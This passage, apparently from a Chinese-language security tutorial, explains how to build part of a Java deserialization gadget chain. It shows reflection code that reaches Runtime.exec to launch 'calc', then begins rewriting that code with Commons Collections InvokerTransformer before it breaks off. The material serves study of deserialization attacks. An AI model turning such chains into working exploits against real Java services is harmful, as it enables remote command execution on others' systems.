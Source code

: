

编写完序列化的语句之后，还有两个问题需要解决



### 1. 解决 Runtime 对象不能序列化



Runtime 对象是不能够直接序列化的，因此我们必须反射获取一个 Rumtime 对象。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747062657-087d039c-57e0-47b2-b6f0-1f42325e10ef.png)



Runtime 对象不能反序列化，但是 Runtime.class 可以反向列化



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747065783-df5cf8e7-913a-4b08-b0b0-154de41dcdab.png)



因此我们可以从 Runtime.class 入手来编写执行任意命令的语句，其中也需要注意几个要点：



1.  exec 并不是一个静态方法，因此在执行前也需要实例化一个 Runtime 对象。 
2.  实例化 Runtime 对象时不能直接使用构造器进行实例化，原因在于构造器是一个私有方法，但我们可以通过调用 getRuntime 方法获得一个实例。 

1.  getRuntime 方法是一个静态方法，因此在 invoke 调用时，第一个参数为 null，由于 getRuntime 不需要参数，**但是也可以为自身**，因此 invoke 第二个参数也为 null。 
2.  别忘了 Runtime 的强制类型转换。
   最终编写如下： 



```java
    public static void testRuntimeClass() throws Exception{
        Class c = Runtime.class;
        Method getRuntimeMethod = c.getMethod("getRuntime");
        Runtime r = (Runtime)getRuntimeMethod.invoke(null,null);

        Method execMethod = c.getMethod("exec",String.class);
        execMethod.invoke(r,"calc");
    }
```



在序列化时，需要改成 InvokerTransformer 调用的形式，需要注意以下几点：



1.  getMethod 方法的第一个参数是函数名，第二个参数是可变数量的 Class 数组。 
2.  invoke 函数的第一个参数类型为 Object ，第二个参数类型为 Object 数组。
   最终改写如下： 



```java
    public static void testRuntimeClassInvokerTransformer() throws Exception{
        Object ob1 = new InvokerTransformer(
                "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ).transform(Runtime.class);
        // Class c = Runtime.class;
        // Method getRuntimeMethod = c.getMethod("getRuntime");
        Object ob2 = new InvokerTransformer(
                "invoke",
                new Class[]{Object.class,Object[].class},
                new Object[]{null,null}
        ).transform(ob1);
        // Runtime r = (Runtime)getRuntimeMethod.invoke(null,null);
```